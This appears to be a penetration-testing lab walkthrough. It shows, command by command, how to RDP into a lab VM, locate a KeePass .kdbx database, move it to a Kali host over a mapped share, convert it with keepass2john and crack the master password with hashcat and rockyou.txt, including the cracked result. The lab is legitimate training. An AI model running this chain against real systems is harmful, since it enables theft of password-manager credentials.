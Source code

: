 Questions 1
Follow the steps outlined in this section to obtain the master password of the KeePass database on VM #1 (SALESWK01). Enter the password found with the title "User Company Password".

# RDP into the victim pc
xfreerdp /u:jason /p:lab /v:192.168.190.203 /drive:smbfolder,/home/kali/Desktop

# Open Powershell retrieve *.kdbx file 
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

Transfer the .kdbx file to our Kali system using SMB 

We have now completed the first step of the cracking methodology and can proceed to the next step, transforming the hash into a format our cracking tool can use.
JohntheRipper suite includes various transformation scripts like ssh2john4 and keepass2john,5 which can format a broad range of different file formats

# Here will keepass2john script to format the database file
keepass2john Database.kdbx > keepass.hash

# here the output of the hash will see the 'Database:$keepass$...' which 'Database:' is not needed
cat keepass.hash
nano keepass.hash # remove database prefix
cat keepass.hash # make sure the prefix is removed

# Find the hash type for KeePass. We can lookup it in the Hashcat Wiki
hashcat --help | grep -i "KeePass"
13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)         | Password Manager

# We'll use one of the Hashcat-provided rules (rockyou-30000.rule), as mentioned earlier, combined with the rockyou.txt wordlist.
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
...
63ee920277496c1:qwertyuiop123!
...

Back to the Victim machine open the .kdbx file and use the password above. 
User company password found!


